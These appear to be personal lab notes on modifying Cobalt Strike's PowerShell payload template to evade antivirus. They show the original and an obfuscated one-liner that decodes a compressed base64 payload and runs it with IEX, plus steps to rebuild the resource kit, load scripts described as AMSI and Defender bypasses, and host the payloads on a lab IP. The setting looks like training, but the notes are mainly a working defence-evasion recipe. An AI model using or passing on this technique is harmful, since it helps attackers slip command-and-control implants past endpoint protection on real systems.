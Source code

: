 *had issues doing this*
Original `compress.ps1` 
```
$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
New `compress.ps1`
```
$DONTSIGME=nEW-Object IO.MemOrYStReAM(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($DONTSIGME,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
reloading resources.cna in `cobaltstrike` 
locate of `compress.ps1
`

step 1 in reseting cobnalt strike data `Reporting -> Reset Data`
![[Pasted image 20231129134554.png]]
ensure that the resources are rebuilt `ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/resource> ./build.sh /mnt/c/Tools/cobaltstrike/resources`
![[Pasted image 20231129134707.png]]
navigate in `cobaltstrike` to `Cobalt Strike -> Script Manager` and load `C:\Tools\cobaltstrike\resources\resources.cna` for amsi bypass shit & `C:\Tools\cobaltstrike\artifacts\pipe\artifact.cna` for artifacts to bypass defender

`10.10.5.50/a` consists of the unmodified `compress.ps1` file
![[Pasted image 20231129135241.png]]
`10.10.5.50/b` is the modified `compress.ps1` file 
![[Pasted image 20231129135345.png]]
